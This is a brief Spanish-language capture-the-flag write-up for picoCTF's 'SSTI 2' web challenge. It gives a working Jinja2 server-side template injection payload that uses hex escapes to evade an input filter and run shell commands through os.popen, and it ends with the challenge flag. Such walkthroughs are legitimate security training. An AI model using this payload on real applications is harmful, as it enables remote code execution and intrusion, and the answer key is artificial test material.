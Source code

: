 descripcion:
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:63195/)!

solucion:
Igual al reto SSTI 1 (server side template injection), nomas que hoy tenemos que obfuscar el codigo para que funcione...

https://medium.com/@kheyraldhs12/picoctf-2025-ssti2-a047c0c5887a

busque el writeup del reto para ver como es la obfuscacion del codigo, y use la siguiente linea:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

viendo que el 'ls' es un comando de linux, cambie por 'cat flag'

picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}